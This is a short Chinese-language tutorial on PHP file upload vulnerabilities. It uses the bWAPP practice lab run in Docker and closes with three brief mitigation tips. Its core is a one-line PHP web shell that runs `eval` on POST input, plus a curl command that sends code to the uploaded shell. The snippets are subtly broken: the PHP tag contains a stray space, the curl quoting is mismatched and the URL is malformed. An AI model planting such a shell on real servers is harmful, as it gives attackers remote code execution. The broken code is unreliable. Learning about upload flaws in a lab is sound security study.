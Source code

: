 ## PHP 文件上传漏洞原理





我这里用 vagrant 启动本地的虚拟机，然后用 docker 安装靶机实验环境





```docker
docker pull registry.cn-shanghai.aliyuncs.com/yhskc/bwapp
docker run -d -p 0.0.0.0:80:80 registry.cn-shanghai.aliyuncs.com/yhskc/bwapp
```



然后访问 http://127.0.0.1:80/install.php ， 对 bwapp 进行安装



```docker
docker container list -a

```

查看正在运行的容器



### 一句话漏洞原理



PHP里面有个 eval 函数， 非常的危险， 我上传 一个 .php 文件到服务器，然后访问这个 文件， 服务器就会执行



```php
<? php @eval($_POST['hacker']);?> 
```

```shell
curl -d "hacker="getcwd();" http://images/hacker.php
```



1. get_current_user 获取当前 PHP脚本的用户
2. getcwd 获取脚本当前的目录









解决文件上传漏洞



1. 白名单优于黑名单
2. 使用安全函数编程
3. 熟悉 部署环境的OS

















